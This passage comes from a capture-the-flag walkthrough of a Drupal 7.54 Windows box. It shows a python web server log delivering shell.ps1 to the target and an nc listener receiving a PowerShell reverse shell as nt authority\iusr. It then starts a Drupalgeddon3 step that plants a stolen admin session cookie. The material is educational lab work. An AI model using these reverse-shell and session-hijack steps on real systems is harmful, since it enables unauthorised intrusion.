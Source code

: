 

My `python` webserver gets the request for `shell.ps1` and sends it:



    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.9 - - [07/Mar/2019 08:35:14] "GET /shell.ps1 HTTP/1.1" 200 -



When `shell.ps1` is run, it loads all the functions, and then invokes
the reverse shell to me on port 443, which I get in `nc`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.9.
    Ncat: Connection from 10.10.10.9:59199.
    Windows PowerShell running as user BASTARD$ on BASTARD
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.

    PS C:\inetpub\drupal-7.54>whoami
    nt authority\iusr



### Drupalgeddon3

#### Enumeration

I'll check out the details of Drupalgeddon3 using
`searchsploit -x exploits/php/webapps/44542.txt`. Reading that, it says
"You must be authenticated and with the power of deleting a node." So it
would not be an option taking this box from scratch. That said, I have
access to the cookie for the admin thanks to the first exploit I ran, so
I'll give this a run using that.

First I'll show that I can log in. I'll use the Firefox plugin "Cookie
Manager" to add a cookie
"SESSd873f26fc11f2b7e6e4aa0f6fce59913=GCGJfJI7t9GIIV7M7NLK8ARzeURzu83jxeqI2_qcDGs".
On refreshing, I see I'm now logged in as admin:

![](/img/1551978371907.png)